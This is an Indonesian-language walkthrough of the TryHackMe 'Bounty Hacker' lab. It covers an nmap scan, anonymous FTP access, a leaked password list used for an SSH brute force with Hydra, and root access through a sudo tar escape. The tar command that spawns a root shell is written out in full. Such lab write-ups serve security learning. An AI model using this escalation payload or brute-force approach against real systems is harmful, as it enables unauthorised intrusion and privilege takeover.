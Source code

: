 ```yaml
---
title: "Tryhackme - Bounty Hacker WriteUps"
date: 2022-12-15 13:00:00 +07:00
categories: [WriteUps]
tags: [ctf, Tryhackme, pentest, writeups]
image: 
---
```


# Tryhackme - Bounty Hacker WriteUps

Menemukan Port terbuka dengan Nmap, Nmap menemukan beberapa layanan umum yang berjalan pada port standar mereka: 21 (FTP), 22 (SSH) dan 80 (HTTP).
```
# nmap -sC -sV 10.10.83.49  
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-14 22:29 PST
Nmap scan report for 10.10.83.49
Host is up (0.33s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.46.188
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dcf8dfa7a6006d18b0702ba5aaa6143e (RSA)
|   256 ecc0f2d91e6f487d389ae3bb08c40cc9 (ECDSA)
|_  256 a41a15a5d4b1cf8f16503a7dd0d813c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.25 seconds
```

Kita disini bisa mengakses langsung pada FTP dikarenakan FTP bisa login dengan Anonymous dan password FTP pun juga sama. Disini kita mendapatkan 2 file yaitu ```locks.txt``` dan ```task.txt```, selanjutnya kita download 2 file tersebut dengan cara ```get namafile.txt```
![image](https://media.discordapp.net/attachments/740245586095112242/1057180275169308742/image.png)

Setelah kita lihat kita menemukan task.txt yang dalamnya terdapat seperti gambar dibawah memungkinkan Informasi Sensitive:
![image](https://media.discordapp.net/attachments/740245586095112242/1057180565243175022/image.png)

Untuk file ```locks.txt``` ini mungkin ini terdapat password tersembunyi dari list file ```locks.txt``` ini. Ini memungkinan informasi sensitive yang bisa kita Brute Force secara langsung.

```
┌──(root㉿yupy)-[~/yp/tryhackme/BountyHacker]
└─# cat locks.txt 
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

Disini kita mencoba Brute Force dengan Hydra pada SSH dengan command dibawah, dan kita mencoba menggunakan list password dari file ```locks.txt``` yang didapat tadi. Dan kita mendapatkan passwordnya.
![image](https://media.discordapp.net/attachments/740245586095112242/1057181156220604546/image.png)

Setelah login pada SSH kita mencoba, kita biasa melihat pada sudoers dengan cara sudo -l. disini terdapat tar yang bisa mengakses langsung pada root access.
![image](https://media.discordapp.net/attachments/740245586095112242/1057181496483528736/image.png)

Selanjutnya kita exploit dengan payload [dari](https://gtfobins.github.io/gtfobins/tar/). setelah kita memasukan payloadnya kita dapat local privileges root access.
```
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
![image](https://media.discordapp.net/attachments/740245586095112242/1057181809537990758/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1057181946565902397/image.png)
